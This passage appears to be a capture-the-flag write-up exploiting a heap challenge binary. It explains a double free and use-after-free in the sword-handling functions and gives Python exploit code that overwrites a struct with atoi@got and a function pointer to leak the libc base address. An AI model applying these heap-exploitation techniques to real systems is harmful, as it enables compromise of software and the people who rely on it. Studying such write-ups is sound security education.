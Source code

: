 Several things should be noted with this function.
First, this snippet introduces a double free vulnerability. It doesn't set the not\_in\_use variable either.
```C
	if (len > MAX_SWORD_LEN) {
		printf("The name is too long.\n");
		free(sword_lists[slot].sword);
		return;
	}

```

Also, the function let's us choose the size of the name as long as it's under MAX\_SWORD\_LEN. This will come in handy later.

The synthe\_sword function, has a comment saying it is vulnerable, but we can already do an exploit without it. (I think the comment was meant to confuse anyways):

With what we know already, it is possible for us to leak libc. Let's exploit the UAF vulnerability to leak the atoi got entry.
To do that, we can just allocate 2 swords, free one of them, then allocate the name for the 2nd one making sure the name's size is the same size as the chunk size of a sword.
First fit will give the 2nd sword's name the same chunk as the first sword, and we are free to overwrite it. We will overwrite the 1st sword's name with the atoi got entry to leak libc.

The struct of a sword is:
```
struct sword_s {
	int name_len;
	int weight;
	char *sword_name;
	void (*use_sword)(char *ptr);
	int is_hardened;
};
```

So we will set the name\_length to 8 so we can read 8 bytes from the got entry, set the weight to 0 because we don't need it, and overwrite the sword\_name with atoi@got.
It is easier to parse the name from the hoo function instead of from the show\_sword function (you can use ..... as a delimeter for parsing for hoo). So I also overwrote
the first swords function pointer to the hoo function for easy parsing.

I will give the full source at the end, but leak\_libc() just parses the hoo function output.
```python
	atoi_plt = struct.pack("L", 0x602078)
	hoo = struct.pack("L", 0x400b9d)
	A = alloc(p)
	B = alloc(p)
	fake_free(p, A) # uses the free in harden_sword() so the is_used stays set.
	harden(p, B, "24", "\x08"+"\x00"+atoi_plt+hoo)
	base = int(leak_libc(p, A), 16) - 0x36e80 # 0x36e80 is the offset between atoi and libc
	log.info("libc base: " + hex(base))
```

This gives us the output:
```
    I use sword \x80^\x85C\x97\x7f.....
[*] libc base: 0x7f974381f000
```
